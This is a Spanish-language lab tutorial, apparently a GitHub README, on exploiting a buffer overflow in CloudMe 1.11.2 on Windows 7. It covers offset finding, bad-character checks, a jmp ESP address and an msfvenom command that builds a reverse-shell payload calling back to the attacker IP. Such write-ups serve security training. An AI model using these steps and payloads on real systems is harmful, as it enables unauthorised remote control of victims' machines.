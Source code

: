 # Buffer Overflow Cloudme 1.11.2

Tutorial de buffer overflow en Windows de 32 bits con el programa Cloudme 1.11.2. Se hace uso de maquinas virtuales, una máquina con Parrot OS (máquina atacante) y otra con Windows 7 (máquina víctima).

Para usar Cludme es necesario crearse una cuenta 

![cloudme](./img/cloudme_reg.png)

Con Immunity Debugger y con la utilidad mona vamos a determinar el offset y direcciones de memoria para ejecutar nuestro shell code. 

Cloudme usa el puerto 8888 pero no está a la vista desde la máquina atacante para poder conectarnos haremos uso de la herramienta Chisel, que nos permite compartir puertos internos de la máquina victima a la máquina atacante. Hay que descargar Chisel según la versión de OS.

Una vez descargado Chisel, desde la máquina atacante ejecutar ``` ./chisel server -p puerto --reverse ```

![chisel_linux](./img/chisel_linux.png)

Y desde la máquina víctima 
```chisel.exe client IPMaquinaAtacante:puerto R:8888:127.0.0.1:8888 ```

![chisel_windows](./img/chisel_windows.png)

Para comprobar que efectivamente se nos ha compartido el puerto con el comandos ```lsof -i:8888 ```

![check_port](./img/check_port.png)

Con netcat podemos conectarnos al servicio

![nc_send_data](./img/nc_send_data.png)

Al enviar datos se puede acontecer el Buffer Overflow para obtener el offset con pattern create crearemos un patrón que será enviado y con Immunity Debugger obtendremos la dirección de la memoría del EIP

```/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 2700 ```

![pattern_buffer](./img/pattern_buffer.png)

![pattern_buffer](./img/pattern_buffer_2.png)

En la máquina victima con Immunity Debugger (ejecutar como administrador) nos sincronizamos con Cloudme, se pausará el programa darle al botón de play para que se reanude el flujo del programa.

Se determina el offset con la dirección del EIP que se obtuvo en Immunity Debugger

con ``` pattern_offset -q dirección ``` se determina el offset

![offset](./img/pattern_offset.png)

En este caso el offset es de 1052.

Comprobamos que sea el offset

![buffer_check](./img/buffer_check.png)

![eip_check](./img/eip_check.png)

Ahora se determina los badchars (carácteres que el programa no puede interpretar) con la utildad mona.py se facilita esta tarea. Para ello se debe copiar en ``` C:\Program Files\Immunity Inc\Immunity Debugger\Libs ```

Con el comando ``` !mona config -set workingfolder C:\Users\Usuario\Desktop\%p ``` se crea un directorio de trabajo 

![mona_folder](./img/mona_working_folder.png)

con ``` !mona bytearray ``` se generan dos archivo, uno de ellos bytearray.txt, que contiene los carácteres imprimibles.

![mona_bytearray](./img/mona_array.png)

Transferir el archivo bytearray.txt a la máquina atacante y añadir los carácteres en el script.

![badchards_script](./img/badchars.png)


Ejecutar el script y desde Immunity Debugger en el EIP se tiene una dirección, se ejecuta 
``` !mona compare -f C:\Users\Users\Desktop\Cloudme\bytearray.bin -a direccion ``` para obtener un badchar)

![badchars_esp](./img/badchars_esp.png)

![badchars_compare](./img/badchars_compare.png)
    
En este caso no hay badchars por lo que se puede generar directamente el shell code

``` 
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.249.128 LPORT=443 -a x86 --platform windows -e x86/shikata_ga_nai -f c
```

![sheell_code](./img/shell_code.png)


Para que se logre interpretar el shell code se debe dar un salto al ESP, se busca la dirección a jmp ESP. Nasm_shell nos ayuda a obtener las direcciónes de instrucciones a bajo nivel en este caso la de jmp ESP.

```/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb```

![jmp_ESP](./img/jmp_esp.png)

Con ```!mona modules ``` se muestran los módulos de SLMail, se busca alguno que tenga Rebase, Safe, ASLR, NXCompat en "False". Se escoge qsqlite.dll

![mona_modules](./img/mona_modules.png)


Se busca la dirección de jmp ESP en el módulo con ```
!mona find -s "\xff\xe4" -m qsqlite.dll ``` y se comprueba la dirreción a jmp ESP

![find_jmp_addr](./img/find_jmp_esp.png)

![find_jmp](./img/esp_addr.png)

En el script de python se añade la dirección de jmp ESP pero al ser 32 bits se debe de estar en Little Endian. Para convertir a Little Endian se separa la dirección en pares y se inverte el orden ``` 6D619117 ->  1791616D ```

Y finalmente se añade NOPs ```\x90``` al payload y se ejecuta el script para obtener una reverse shell


![reverse_shell](./img/bof.png)



